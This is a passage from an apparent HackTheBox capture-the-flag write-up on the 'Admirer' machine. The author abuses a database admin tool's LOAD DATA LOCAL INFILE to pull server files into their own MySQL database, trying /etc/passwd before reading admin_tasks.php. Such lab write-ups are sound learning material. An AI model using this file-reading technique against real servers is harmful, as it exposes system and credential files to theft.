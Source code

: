 > As you can see, I named my temporary database `TEMPDB` and I'm connected to my HTB private IP `10.10.14.6`.

#### Exploit

In order to perform a similar exploit as in the article [video](https://play.vidyard.com/2v2dccGr2NKWrXsVzkNn8w?disable_popouts=1&v=4.2.27&viral_sharing=0&embed_button=0&hide_playlist=1&color=FFFFFF&playlist_color=FFFFFF&play_button_color=2A2A2A&gdpr_enabled=1&type=inline&new_player_ui=1&autoplay=0&loop=0&muted=0&hidden_controls=0), we have to create a table by clicking on "Create table" link on the left of the page.

However there is no such file as `app/etc/local.xml` as we can see:

![Can't find file](/assets/img/htb/machines/linux/easy/admirer/error-file.png)

Let's be creative. What about `/etc/passwd`:

![Unable to open file](/assets/img/htb/machines/linux/easy/admirer/error-permission.png)

Arg! Let's try `admin_tasks.php` since we are in the same directory:

{% highlight bash %}
LOAD DATA LOCAL INFILE 'admin_tasks.php'
INTO TABLE TEMPDB.backup
FIELDS TERMINATED BY "\n"
{% endhighlight %}

![query success](/assets/img/htb/machines/linux/easy/admirer/query-success.png)
